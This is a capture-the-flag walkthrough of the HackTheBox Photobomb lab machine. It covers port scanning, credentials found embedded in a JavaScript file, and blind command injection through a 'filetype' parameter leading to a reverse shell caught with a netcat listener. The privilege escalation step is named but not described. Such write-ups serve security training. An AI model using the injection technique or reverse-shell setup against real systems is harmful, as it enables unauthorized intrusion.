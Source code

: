 # HackTheBox - Photobomb Walkthrough

**Author: Suvani  Basnet**


## Stage 1: Scanning the Target

### 🔍 Phase 1: Port Scanning

I began with an aggressive full port scan:

```bash
sudo nmap -A $IP_ADDRESS
```

**Result:** Two open ports.

* **Port 22** - SSH
* **Port 80** - HTTP

### 🔎 Phase 2: Service Enumeration

```bash
sudo nmap -sC -sV -Pn -n -p22,80 -T normal $IP_ADDRESS
```

**Findings:**

* **22/tcp** - OpenSSH 8.2p1
* **80/tcp** - Nginx 1.18.0

### 🗂 Add Domain to Hosts File

```bash
sudo vim /etc/hosts
```

Add:

```
<TARGET_MACHINE_IP> photobomb.htb
```

---





## Stage 2: JavaScript Credential Discovery

While inspecting `photobomb.htb`, I found a JS file: `photobomb.js`. It contained embedded credentials:

```js
pH0t0:b0Mb!
```

Logged into [http://photobomb.htb/printer](http://photobomb.htb/printer) using these creds.

---

## Stage 5: Command Injection via Burp Suite

### 📩 Download Photo Request

* Parameters: `photo`, `filetype`, `dimensions`

### 🚨 Testing Command Injection

Tried injecting `;sleep 5;` in each parameter:

* `photo` → Error: source not found
* `dimensions` → Error: invalid
* `filetype` → Delay in response ⏳

### 🤐 Blind Command Injection

Confirmed using ICMP ping + tcpdump:

```bash
ping 127.0.0.1
```

Payload (URL encoded):

```
filetype=jpg;<bash reverse shell url encoded>
```

Result: Received a shell back  — command injection confirmed.

---


### 🧏 Netcat Listener

```bash
nc -lvnp 1234
```

Connection successful — gained shell as **wizard** user.

### 🛠 Shell Stabilization

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo;fg
```

📁 **User flag** found in `/home/wizard/user.txt`

---

## Stage 7: Privilege Escalation

PATH INJECTION

🎉 Got **root shell**!

📁 **Root flag** located at `/root/root.txt`

---